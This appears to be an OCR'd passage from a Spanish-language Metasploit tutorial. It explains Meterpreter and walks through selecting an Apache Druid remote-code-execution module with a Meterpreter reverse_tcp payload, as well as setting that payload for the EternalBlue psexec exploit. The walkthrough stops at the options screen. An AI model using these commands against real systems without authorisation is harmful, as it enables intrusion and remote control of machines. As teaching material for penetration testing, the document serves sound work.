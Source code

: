 ```bash
msf6 exploit(windows/smb/ms17_010_psexec) > set payload windows/x64/meterpreter/reverse_tcp
```

## Meterpreter

El `Meterpreter` es un framework de código abierto que permite a los usuarios interactuar con un sistema operativo remoto con comandos universales independientemente del sistema objetivo, es decir que los comandos de `Meterpreter` pueden ser utilizados en cualquier sistema operativo.

### Meterpreter comandos

```bash
meterpreter > help
```
Meterpreter está basado en comandos nativos de la shell de comandos Linux. Estos comandos son similares a los comandos de Bash, pero con algunas diferencias.

Por ejemplo si queremos iniciar una shell nativa en el sistema remoto podemos utilizar el comando `shell`.

[Ver Cheatsheet Meterpreter](/assets/img/posts/metasploit/cheat_sheet.pdf)

#### Ejemplo práctico

```bash
msf6 > search Apache Druid

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/apache_druid_js_rce          2021-01-21       excellent  Yes    Apache Druid 0.20.0 Remote Command Execution
   1    \_ target: Linux (dropper)                    .                .          .      .
   2    \_ target: Unix (in-memory)                   .                .          .      .
   3  exploit/multi/http/apache_druid_cve_2023_25194  2023-02-07       excellent  Yes    Apache Druid JNDI Injection RCE
   4    \_ target: Automatic                          .                .          .      .
   5    \_ target: Windows                            .                .          .      .
   6    \_ target: Linux                              .                .          .      .
   7  auxiliary/scanner/http/log4shell_scanner        2021-12-09       normal     No     Log4Shell HTTP Scanner
   8    \_ AKA: Log4Shell                             .                .          .      .
   9    \_ AKA: LogJam                                .                .          .      .


Interact with a module by name or index. For example info 9, use 9 or use auxiliary/scanner/http/log4shell_scanner

msf6 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/apache_druid_js_rce) > options

Module options (exploit/linux/http/apache_druid_js_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8888             yes       The target port (TCP)
```